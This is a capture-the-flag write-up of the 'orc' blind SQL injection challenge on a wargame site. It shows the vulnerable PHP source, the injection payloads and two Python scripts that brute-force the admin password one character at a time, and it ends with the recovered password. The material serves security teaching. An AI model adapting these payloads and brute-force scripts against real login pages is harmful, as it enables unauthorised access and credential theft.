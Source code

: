 Source:

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

In this challenge, we would have a general overview of **Blind SQL Injection**.
Tutorial: [Blind SQLi](https://portswigger.net/web-security/sql-injection/blind)

The program above's divided into 2 main section:
- The first one is a basic SQLi and easy to pass
- The second is what we have to solve. 
We should rely on the first part to guess the password to complete the chall.

We try guess the payload to see whether it is accomplished or not (if SQLi in the first query "kick in" successful, "Hello admin" will be printed on the screen).

Try guess the length, insert **length(pw)** function (try **len()** but not working, so it maybe MySQL ), then comment out all the remaining code: `try_payload ="pw=123' or length(pw) < 10 -- char(32)"`.

The page return "Hello admin", so the length of password is less than 10 characters.

So we ought to guess the exact length of password with similar query and try from range 1 to 9, append the query into url and loop it. This python code below will solve this:
```python
from requests import *
# try_payload ="pw=123' or length(pw) < 10 -- char(32)"
cookie = dict(PHPSESSID="sftmn1nhpsjgke59r39nfn03nv")

for i in range (10):
    payload = "?pw=123' or length(pw) = " + str(i) + " -- char(32)"
    a = get("https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php" + payload, cookies=cookie)
    if "Hello admin" in a.text:
        print(payload)
        print("The length of password is", i)
```

Note: 
- This page require login method, so make sure we have cookie to maintain our access and get into the chall. 
- Get cookie by Developer Mode -> Storage(Firefox)/ Application(Edge, Chrome, ...).

Result:

![image](https://user-images.githubusercontent.com/48288606/154279600-86f8f63e-8def-4c8a-942c-4409eb4826fd.png)

With the shown result, we will guess which character is stayed in each position. We can take advantages of **ascii()** and **substring()** function to make a comparison the password with the character we test. We try all the printable character in ascii code (from 32-> 126). Use this pattern to brute-force all the case of available password: `?pw=123' or ascii(substring(pw, {position}, 1)) = {ascii_number} -- char(32)`

The possibility of the chall is contingent on the complex of the password so this chall still be reasonable. The code below will brute-force the password we need.


```python
from requests import *
try_payload ="pw=123' or length(pw) < 10 -- char(32)"
cookie = dict(PHPSESSID="sftmn1nhpsjgke59r39nfn03nv")


adminPassword = ""

print("==============================================================")

for i in range (1,9):
    for j in range(32, 127):
        payload = "?pw=123' or ascii(substring(pw, " + str(i) + ", 1)) = '" + str(j) + "' -- char(32)"
        a = get("https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php" + payload, cookies=cookie)
        if "Hello admin" in a.text:
            print(payload)
            print("The position of ", i, "has value: ", chr(j))
            print("==============================================================")
            adminPassword += chr(j)
            break

print("Password of Administrator: ", adminPassword)
```
We get the full password for admin login:

![image](https://user-images.githubusercontent.com/48288606/154270130-49cda9fc-b71b-4e77-a935-bdf748949920.png)


Filter(pw): `prob` | `_` | `.` | `()`

PW: `095a9852` 

Payload: `?pw=095a9852`

Code solve: [HERE](3-orc.py)
